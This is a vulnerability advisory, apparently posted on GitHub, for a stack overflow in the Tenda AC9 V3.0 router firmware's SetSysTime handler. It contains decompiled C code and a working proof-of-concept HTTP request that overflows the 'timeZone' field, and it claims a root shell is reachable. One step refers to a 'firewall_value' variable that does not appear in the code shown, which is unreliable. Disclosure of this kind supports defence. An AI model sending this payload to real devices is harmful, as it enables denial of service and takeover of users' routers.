


# Tenda AC9 V3.0BR_V15.03.06.42_multi_TD01 was discovered stack overflow via parameter 'timezone' at url /goform/SetSysTime

## Affected Version

US_AC9V3.0BR_V15.03.06.42_multi_TD01

## Firmware Download Address

[AC9V3.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/download/detail-2908.html)

## Vulnerability Description

Tenda AC9 V3.0 BR_V15.03.06.42_multi_TD01 was discovered to contain a stack overflow via parameter 'timezone' at url /goform/SetSysTime.

## vulnerability Details

1. This vulnerability lies in the function 'fromSetSysTime'，The details are shown below:

```c
void __cdecl fromSetSysTime(webs_t wp, char_t *path, char_t *query)
{
  __time_t timep; // [sp+28h] [+28h]
  const char *tmpstr; // [sp+2Ch] [+2Ch]
  const char *timentpserver; // [sp+34h] [+34h]
  const char *timeper; // [sp+38h] [+38h]
  const char *timezone; // [sp+3Ch] [+3Ch]
  cgi_msg errCode; // [sp+40h] [+40h]
  const char *mode; // [sp+44h] [+44h]
  char tmp[256]; // [sp+48h] [+48h] BYREF
  char par[16]; // [sp+148h] [+148h] BYREF
  TPI_SNTP_CFG cfg; // [sp+158h] [+158h] BYREF
  char_t timezone_buf[16]; // [sp+268h] [+268h] BYREF
  char_t timezone_min_buf[16]; // [sp+278h] [+278h] BYREF
  char timeen[8]; // [sp+288h] [+288h] BYREF
  char par_0[16]; // [sp+290h] [+290h] BYREF
  char year[10]; // [sp+2A0h] [+2A0h] BYREF
  char month[10]; // [sp+2ACh] [+2ACh] BYREF
  char day[10]; // [sp+2B8h] [+2B8h] BYREF
  char hour[10]; // [sp+2C4h] [+2C4h] BYREF
  char min[10]; // [sp+2D0h] [+2D0h] BYREF
  char sec[10]; // [sp+2DCh] [+2DCh] BYREF
  timeval tv; // [sp+2E8h] [+2E8h] BYREF
  tm tm_t; // [sp+2F0h] [+2F0h] BYREF

  errCode = CGI_OK;
  memset(tmp, 0, sizeof(tmp));
  memset(par, 0, sizeof(par));
  memset(&cfg, 0, sizeof(cfg));
  mode = websGetVar(wp, "timeType", "sync");
  if ( !strcmp(mode, "sync") )
  {
    strcpy(timezone_buf, "0");
    memset(&timezone_buf[2], 0, 14);
    strcpy(timezone_min_buf, "0");
    memset(&timezone_min_buf[2], 0, 14);
    memset(timeen, 0, sizeof(timeen));
    memset(par_0, 0, sizeof(par_0));
    timezone = websGetVar(wp, "timeZone", byte_51CB84);
    timeper = websGetVar(wp, "timePeriod", byte_51CB84);
    timentpserver = websGetVar(wp, "ntpServer", "time.windows.com");
    if ( strchr(timezone, 58) )
    {
      sscanf(timezone, "%[^:]:%s", timezone_buf, timezone_min_buf);
    }
    else
    {
      strcpy(timezone_buf, timezone);
      strcpy(timezone_min_buf, "0");
    }
    SetValue("sys.timesyn", "1");
    SetValue("sys.timemode", "auto");
    SetValue("sys.timezone", timezone_buf);
    SetValue("sys.timenextzone", timezone_min_buf);
    SetValue("sys.timefixper", timeper);
    SetValue("sys.timentpserver", timentpserver);
    if ( CommitCfm() )
    {
      GetValue("sys.timesyn", timeen);
      if ( atoi(timeen) == 1 )
      {
        cfg.sntp_en = atoi(timeen);
        cfg.time_zone = atoi(timezone);
        cfg.time_next_zone = atoi(timezone_min_buf);
        cfg.check_time = atoi(timeper);
        strcpy(cfg.sntp_server, timentpserver);
        sprintf(par_0, "op=%d", 3);
      }
      else
      {
        sprintf(par_0, "op=%d", 2);
      }
      send_msg_to_netctrl(24, par_0);
      goto LABEL_19;
    }
    goto LABEL_10;
  }
  if ( strcmp(mode, "manual") )
  {
LABEL_19:
    sprintf(tmp, "{\"errCode\":%d}", errCode);
    goto LABEL_20;
  }
  tmpstr = websGetVar(wp, "time", byte_51CB84);
  sscanf(tmpstr, "%[^-]-%[^-]-%[^ ] %[^:]:%[^:]:%s", year, month, day, hour, min, sec);
  tm_t.tm_year = atoi(year) - 1900;
  tm_t.tm_mon = atoi(month) - 1;
  tm_t.tm_mday = atoi(day);
  tm_t.tm_hour = atoi(hour);
  tm_t.tm_min = atoi(min);
  tm_t.tm_sec = atoi(sec);
  timep = mktime(&tm_t);
  if ( timep < 11 )
  {
    errCode = CGI_ERROR;
    goto LABEL_19;
  }
  tv.tv_sec = timep;
  tv.tv_usec = 0;
  if ( settimeofday(&tv, 0) < 0 )
  {
    puts("Set   system   datatime   error!");
    sprintf(tmp, "{\"errCode\":%d}", 1);
    goto LABEL_20;
  }
  SetValue("sys.timesyn", "0");
  SetValue("sys.timemode", "hand");
  if ( CommitCfm() )
  {
    sprintf(par, "op=%d", 2);
    send_msg_to_netctrl(24, par);
    goto LABEL_19;
  }
LABEL_10:
  sprintf(tmp, "{\"errCode\":%d}", 1);
LABEL_20:
  websTransfer(wp, tmp);
}
```

2. in function 'fromSetSysTime' line 39, 'timezone' is a a user-controlled parameter("timeZone") and is read in without length check.



3. Then content of 'firewall_value' is copied into local variable 'timezone_buf', which leads to a stack overflow vulnerability.



## POC

By sending delicately constructed data package as the poc above, we can cause a stack overflow error.

```
POST /goform/SetSysTime HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 2055
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/system_time.html?random=0.303247658396253&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcufv1qw

timePeriod=86400&ntpServer=time.windows.com&timeZone=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaeaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaeaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaeaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae&timeZone=20
```

you can write exp, which can achieve a very stable effect of obtaining the root shell.

## Author

田文奇
